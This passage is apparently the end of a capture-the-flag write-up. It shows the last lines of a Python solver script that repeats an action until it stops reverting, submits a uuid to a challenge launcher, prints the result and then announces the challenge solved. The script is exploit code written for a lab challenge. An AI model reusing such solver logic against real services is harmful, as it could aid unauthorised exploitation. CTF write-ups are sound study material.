    battle_until_no_revert(uuid)

launcher = action(4)
launcher.recvuntil(b"uuid please: ")
launcher.sendline(uuid.encode())
print(launcher.recvall().decode())
```

...pray to rngesus and...



...solved!
